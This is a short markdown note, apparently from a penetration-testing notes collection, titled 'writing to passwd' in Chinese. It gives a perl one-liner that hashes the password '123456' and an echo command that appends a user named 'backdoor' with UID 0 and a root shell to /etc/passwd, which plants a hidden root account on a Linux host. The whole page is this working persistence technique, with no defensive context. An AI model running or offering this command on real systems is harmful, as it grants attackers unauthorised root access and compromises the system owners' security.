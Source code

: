 ```yaml
---
title: passwd写入
id: zhfly3500
---
```


## passwd写入

```
perl -e 'print crypt("123456", "AA"). "\n"'
echo "backdoor:AASwmzPNx.3sg:0:0:me:/root:/bin/bash">>/etc/passwd 
```

![image](../img/3616bfc17b420d330c208c26bf83f396.png)

![image](../img/819e22b43cc77e7c310a44e5fdde946a.png)